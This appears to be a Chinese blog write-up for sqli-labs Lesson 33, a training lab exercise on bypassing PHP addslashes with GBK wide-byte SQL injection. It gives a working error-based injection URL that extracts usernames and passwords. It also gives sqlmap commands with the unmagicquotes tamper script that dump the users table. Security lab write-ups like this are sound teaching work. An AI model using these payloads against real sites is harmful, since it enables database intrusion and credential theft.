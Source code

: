 ```yaml
---
title: sqli-labs lession-33 GET-绕过AddSlashes
date: 2018-10-15 14:40:01
tags: [sqli-labs]
categories: sql注入
---
```


# sqli-labs lession-33 GET-绕过AddSlashes

---

## 登录界面

![001](/img/sql/Lesson-33/001.png)

## 分析

![002](/img/sql/Lesson-33/002.png)

由于使用了addslashes函数将单引号（`’`）转义，但是使用了gbk编码,同样使用宽字节绕过。

![003](/img/sql/Lesson-33/003.png)

## 注入

跟上一课payload一模一样,过程图就不放上来了。

{% post_link sqli-labs-lession-32-GET-绕过自定义过滤器-向危险字符添加斜杠 点击查看Lesson-32%}

`http://192.168.75.132/sql/Less-33/?id=1%df'and extractvalue(null,concat(0x7e,(select concat(username,password) from users limit 0,1),0x7e))%23`

![004](/img/sql/Lesson-33/004.png)

## SQLMAP

tamper自带了宽字节绕过的脚本unmagicquotes.py

`sqlmap -u "http://192.168.75.132/sql/Less-33/?id=1'" --dbms mysql --technique E --tamper unmagicquotes.py --threads 10 -v 3`

![006](/img/sql/Lesson-33/006.png)

![005](/img/sql/Lesson-33/005.png)

直接上结果

`sqlmap -u "http://192.168.75.132/sql/Less-33/?id=1'" --dbms mysql --technique E --tamper unmagicquotes.py --threads 10 -D security -T users --columns --dump`

![007](/img/sql/Lesson-33/007.png)

![008](/img/sql/Lesson-33/008.png)







